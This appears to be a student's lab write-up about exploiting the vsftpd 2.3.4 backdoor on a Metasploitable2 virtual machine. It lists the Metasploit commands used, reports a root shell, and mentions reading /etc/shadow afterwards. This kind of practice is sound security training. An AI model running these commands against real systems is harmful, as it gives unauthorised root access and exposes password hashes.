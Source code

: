 
---

##  Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)


# Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)


##  Objective
Exploit a known backdoor vulnerability in the vsftpd 2.3.4 service to gain shell access.

---

##  Tools
- Metasploit Framework
- Kali Linux

---

##  Exploit Used
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
set RPORT 21
run
```

---

## Result
Successfully exploited vsftpd backdoor

Gained root shell on the target (Metasploitable2)

---

## What I Learned
Understood how to identify and target known CVEs

Practiced Metasploit module usage with precision

Experienced real-world post-exploitation workflow

===

## Screenshot

The following screenshot captures the successful execution of the vsftpd 2.3.4 backdoor exploit using Metasploit and resulting root shell access:

![vsftpd Exploit – Root Shell](../../Screen%20Shot%202025-05-23%20at%2020.28.34.png)

Verification of root access using basic system commands (`id`, `whoami`, `hostname`):

![Root Access Confirmed](../../Screen%20Shot%202025-05-23%20at%2020.29.13.png)

As part of post-exploitation, we accessed `/etc/shadow` to demonstrate privilege level:

![Shadow File Access](../../Screen%20Shot%202025-05-23%20at%2020.31.44.png)



---

## Date
23 May 2025
